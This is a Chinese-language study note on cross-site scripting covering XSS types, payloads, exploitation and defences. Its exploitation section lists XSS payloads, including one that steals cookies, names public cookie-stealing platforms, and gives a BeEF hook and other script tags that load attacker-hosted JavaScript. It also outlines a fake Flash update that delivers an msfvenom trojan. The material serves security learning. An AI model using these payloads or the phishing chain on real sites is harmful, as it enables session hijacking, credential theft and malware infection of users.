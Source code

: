 ### 一、概述
#### 1、漏洞原理
程序对输入和输出的控制不够严格，导致“精心构造”的脚本输入后，在输到前端时被浏览器当作有效代码解析执行从而产生危害
#### 2、漏洞危害
1. 网络钓鱼，包括获取各类用户账号
2. 窃取用户cookies资料，从而获取用户隐私信息
3. 劫持用户（浏览器）会话，从而执行任意操作
4. 强制弹出广告页面、刷流量等
5. 网页挂马
6. 结合其他漏洞，如csrf，实施进步危害
#### 3、xss漏洞探测
**常见出现xss位置：**
```
1. 登陆，注册，留言，评价，搜索等功能

2. 数据提交：get，post，cookie，header头部等

3. 各种插件，组件，富文本编辑器等

4. 只要是可以输入输出的地方，都可以尝试探测是否存在xss漏洞
```
**xss常用payload：**
```
1. <script>alert(1)</script>

2. <img src=x onerror=alert(1)>

3. <svg onload=alert(1)>

4. <a href=javascript:alert(1)>

5. <details open ontoggle= confirm(document[`coo`+`kie`])>
```

### 二、xss类型
#### 1、反射型
又称非持久型XSS，这种攻击方式往往具有一次性，只在用户单击时触发。跨站代码一般存在链接中，当受害者请求这样的链接时，跨站代码经过服务端反射回来，这类跨站的代码通常不存储服务端
![[Pasted image 20231221161227.png]]


#### 2、存储型xss
存储型XSS（ Stored xss Attacks），也是持久型XSS，比反射型XSS更具有威胁性。。攻击脚本将被永久的存放在目标服务器的数据库或文件中。这是利用起来最方便的跨站类型，跨站代码存储于服务端（比如数据库中）。
![[Pasted image 20231221161326.png]]

#### 3、dom型
DoM是文档对象模型（ Document Object Model）的缩写。它是HTML文档的对象表示，同时也是外部内容（例如 JavaScript）与HTML元素之间的接口。解析树的根节点是“ Document"对象。DOM（ Document object model），使用DOM能够使程序和脚本能够动态访问和更新文档的内容、结构和样式。它是基于DoM文档对象的一种漏洞，并且DOM型XSS是基于JS上的，并不需要与服务器进行交互
![[Pasted image 20231221161421.png]]





### 三、xss攻击利用
#### 1、里一共xss平台进行利用
xss平台获取cookie：
	xss.yt
	xssaq.com
	自己搭建平台：xsshunter,xss_platform等
#### 2、beef-xss工具
下载：
```
apt intall beef-xss
```
payload：
```
<script src = "http://127.0.0.1:3000/hook.js"></script>
```
平台登录:
```
http://100.100.100.28:3000/ui/authentication
```
#### 3、flash钓鱼攻击
准备工作：
1. 先搭建钓鱼网站：https://github.com/crow821/FakeFlash
2. 插入恶意的Payload：<script src= "http://192.168.1.21:8000/flash.js"></script>
3. 使用msfvenom生成木马
4. 将木马和正常的flash安装程序绑定
5. 将生成后的exe程序放在自己网站上
6. 进入msf工具开启监听
7. 
触发流程：
	![[Pasted image 20231221164611.png]]


#### 4、xss网页挂马
在自己服务器新建恶意js文件：

```
const targetURL = "https://www.example.com";
function redirectToTarget() {
window.location.replace(targetURL);
}
document.addEventListener("DOMContentLoaded" , redirectToTarget);
```

Payload:
```
<script src= "http://xx.xx.xx.xx/indey.js" defer></script>
```
### 四、xss的防御和绕过
#### 1、绕过
**常见绕过方法：**
![[Pasted image 20231221164830.png]]


xss-labs绕过：
![[Pasted image 20231221164858.png]]

#### 2、防御：
设置关键词黑名单：包括`” ‘ ”,” “ ”,”<”,”>” “on*”`等非法字符。
设置http-only：只要 cookie 中含有 Http-only 字段，那么任何 JavaScript 脚本都没有权限读取这条 cookie 的内容
使用html实体编码等
SOP同源策略：SOP把拥有相同主机名 、协议和端口的页面视为同一来源。不同来源的资源之间交互是受到限制的